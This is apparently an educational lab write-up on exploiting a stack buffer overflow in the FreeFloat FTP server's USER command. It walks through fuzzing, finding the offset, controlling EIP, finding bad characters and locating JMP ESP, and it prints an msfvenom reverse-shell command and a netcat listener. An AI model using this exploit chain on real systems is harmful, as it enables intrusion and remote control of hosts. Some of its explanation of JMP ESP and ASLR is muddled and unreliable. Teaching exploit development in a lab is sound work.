# **PART 2. EXPLOITATION**

#### Step-by-step guide.

1. [Looking for the vulnerability](#1-looking-for-the-vulnerability) 

2. [Fuzzing](#2-fuzzing)

3. [Discovering the offset](#3-discovering-the-offset)

4. [Controlling EIP](#4-controlling-eip)

5. [Find bad chars](#5-find-bad-chars)

6. [The JMP ESP function](#6-the-jmp-esp-function)

7. [Generating a Shellcode](#7-generating-a-shellcode)

8. [Exploit the vulnerability](#8-exploit-the-vulnerability)

--- 

---

---

### 1 Looking for the vulnerability

The target FreeFloat FTP server is a legacy FTP service on TCP port 21 and processes commands without any modern secutiry practices as ASLR. Some handlers use unsafe functions such as `strcpy` and `strcat`, which may lead to **stack buffer overflows**. First, we checked the connectivty with the `ncat`command.



Then, To check this vulnerability, some static analysis with **IDA Freeware** can be used over the binary with a "pseudocode" view and look for unsafe functions.



Some key FTP commands to fuzz are `PASS`, `APE`, `LIST`, `RETR` or, the one I'm using, **`USER`**. I look for it with the "strings" view and filter the result with "USER" in the *strings* panel.



With this, we can check that the program is using the "vulnerable" functions like `strcpy` ans `strcat`, which doesn't check the amount of input data the user has send. 



To procede, I attached the service to immunity debugger with: 

`File > attach`



And open the "CPU" view to work with around the information we can get. 



### 2 Fuzzing

I used a fuzzing technique to determine if the server crashes due to an oversized input, indicating a possible buffer overflow. This consists in sending multiple strings to the vulnerable command, increasing over and over, until the program crashes. A crash occurs when the input string is large enough to overwrite the **Return Address** on the stack, causing an **Access Violation**. I used an **Python** fuzzer for this purpose sending 100 bytes of `A`'s (\x41) and incrementing it each time it runs until the program crashes:



As a result, Immunity debugger shows that the program has crashed but the EIP has been altered with the value `41414141`. 



### 3 Discovering the offset

To achieve precise execution control, by sending a unique, non-repeating string of characters, generated with **mona.py and immunity**; I could observe the specific 4-byte value stored in the `EIP` (Extended Instruction Pointer) at the moment of the crash, because if I used multipla "A" i can't differentiate where it crashes.

`!mona pattern_create 100`  - command used in Immunity Debugger with the plugin "mona" to generate a pattern. It also outputs a "pattern.txt" in the configurated folder. 



Later on, using `mona.py`, I calculated the exact **Offset**—the number of bytes required to reach the EIP register with the command `!mona pattern_offset [EIP]`. It gives me that the cyclic pattern ends at position 246, meaning that it needs 246 bytes of data to generate the overwrite. 





### 4 Controlling EIP

In the 4th step we need to accomplish one thing: verify that we can control the **EIP register** by overwriting it, replacing the return addresss with our own value. The program must jump to that addresss when it crashes and to be done, we have to use a payload with: 

- **Padding:** "A" characters up to the offset.

- **EIP Overwrite:** A dummy address (e.g., "B*4" equals `\x42\x42\x42\x42`).

- **Trailing Bytes:** Additional data to verify stack depth.



Success was confirmed when the debugger showed `EIP` containing exactly `42424242`, proving I could redirect the CPU to any arbitrary memory address. This means that someone can redirect the EIP to a shellcode address, for example; and get the payload loaded. 



### 5 Find Bad Chars

To follow with the exploit, the payload must not contain any bad character in it because it may cause a crash on the program before executing the payload. To find them, we can use **mona** to create a pattern and automatize the discovery of this "bad chars" before we create the payload by comparing the memory in **Immunity debugger** and launch it with python. 



After launching the py script, it can be checked in Immunity, **Following in dump** at the `ESP` that after the "414141" values doesn't show the expected "00" value, it crashes. That means that x00 is a bad chars. 



the next steps can be done manually, by deleting the bad chars from script string ("bad_chars", in my case) and redoing the same process until all bad chars are located; or it can be done by mona.

Mona can generate a bytearray and compare it with the ESP memory address. The bad chars can be "by passed" from the compare list. All can be  done with the following comands: 

`!mona bytearray` - Generate the byte arrey to be compared.

`!mona compare -f C:\Mona\bytearray.bin -a [ESP MEMORY ADDRESS]` - First comparison. 
`!mona bytearray -b "\x00"` - Bypassing the first bad char. 
`!mona compare -f C:\Mona\bytearray.bin -a [ESP MEMORY ADDRESS]` - Second time launching the comparison. 
`!mona bytearray -b "\x00\x0a"` - Deleting the second bad char from the list. 





Following these steps i got the bad character, that are some common ones:  

- `\x00` Null

- `\x0a` Line Feed

- `\x0d` Carriage Return

### 6 The "JMP ESP" function

---

:pushpin: *I'm running this lab on a windows 11 S.O., so most of de modules are compiled with **ASLR** and other protections. In addition, the main binary may not contain any usable JMP ESP / CALL ESP instruction without bad characters. So, in this lab, I'm going to use an address during the debugging sessions that will change in the next run.* 

*It can be checked with `!mona modules` command:



---

As we are working in an educational setting, we'll leverage **Mona** and **Immunity Debugger** to locate a suitable pointer for our exploit. With the command `!mona asm -s "jmp esp"` we get that the instruction value of a `JMP ESP` is **`\xff\xe4`**.



The `JMP ESP` function is the one that we need to modify to make the program to run our **shellcode**. That is because it stores the return address. Normally we use a technique to overwrite EIP with the address of a `JMP` instructions inside a module with modern protections like ASLR os SafeSEH because the adresses will change with every run with these security settings applied.

So, we are gonna copy this direction from the command `!mona find -s "\xff\xe4" -cpb "\x00\x0a\x0d"` and get the expression listed in Immunity Debugger.





The next step is to launch the python script modifying it with this direction in Little Endian with the objective to modify the pointer of the `EIP` and execute a defined number of `NOP` that can be observed in the next screenshot.



### 7 Generating a Shellcode

The exploiting part begins here. To create a paylod I'm going to use a **Kali system** with `msfvenom` to generate a **Reverse TCP shell** without any bad character, [from point 5](#5-find-bad-chars), with the following command: 

`msfvenom -p windows/shell_reverse_tcp LHOST=[KALI_IP] LPORT=[PORT] EXITFUNC=thread --bad-chars "\x00\x0a\x0d" -e x86/shikata_ga_nai --format python`



With the payload generated, we can send it to the vulnerable program with some `NOP` sled before it. This provides a "landing zone" that allows the CPU to slide into the actual code even if the stack alignment shifts slightly.



### 8 Exploit the vulnerability

The final stage involved executing the complete exploit script against the target. By listening on the defined port via `nc -lvnp`, the `JMP ESP` successfully redirected the execution flow through the NOP sled and into the shellcode, resulting in a **Reverse Shell** and full system access to the vulnerable Windows 11 host.

`sudo nc -nlvp [PORT]`


